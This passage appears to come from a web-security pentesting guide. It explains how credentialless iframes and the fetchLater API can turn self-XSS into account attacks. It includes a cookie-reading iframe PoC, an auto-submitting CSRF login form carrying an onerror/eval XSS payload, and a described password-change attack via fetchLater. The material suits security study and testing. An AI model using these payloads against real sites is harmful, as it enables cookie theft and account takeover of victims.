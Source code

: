 * Scripts in different credentialless iframes **still share the same top-level origin** and can freely interact via the DOM, making multi-iframe self-XSS attacks feasible (see PoC below).
* Because the network is **credential-stripped**, any request inside the iframe effectively behaves as an unauthenticated session – CSRF protected endpoints usually fail, but public pages leakable via DOM are still in scope.
* Pop-ups spawned from a credentialless iframe get an implicit `rel="noopener"`, breaking some OAuth flows.

```javascript
// PoC: two same-origin credentialless iframes stealing cookies set by a third
window.top[1].document.cookie = 'foo=bar';            // write
alert(window.top[2].document.cookie);                 // read -> foo=bar
```

- Exploit example: Self-XSS + CSRF

In this attack, the attacker prepares a malicious webpage with 2 iframes:

- An iframe that loads the victim's page with the `credentialless` flag with a CSRF that triggers a XSS (Imagin a Self-XSS in the username of the user):
  ```html
  <html>
  <body>
    <form action="http://victim.domain/login" method="POST">
      <input type="hidden" name="username" value="attacker_username<img src=x onerror=eval(window.name)>" />
      <input type="hidden" name="password" value="Super_s@fe_password" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
  </html>
  ```

- Another iframe that actually has the user logged in (without the `credentialless` flag).

Then, from the XSS it's possible to access the other iframe as they have the same SOP and steal the cookie for example executing:

```javascript
alert(window.top[1].document.cookie);
```

### fetchLater Attack

As indicated in [this article](https://blog.slonser.info/posts/make-self-xss-great-again/) The API `fetchLater` allows to configure a request to be executed later (after a certain time). Therefore, this can be abused to for example, login a victim inside an attackers session (with Self-XSS), set a `fetchLater` request (to change the password of the current user for example) and logout from the attackers session. Then, the victim logs in in his own session and the `fetchLater` request will be executed, changing the password of the victim to the one set by the attacker.

This way even if the victim URL cannot be loaded in an iframe (due to CSP or other restrictions), the attacker can still execute a request in the victim's session.
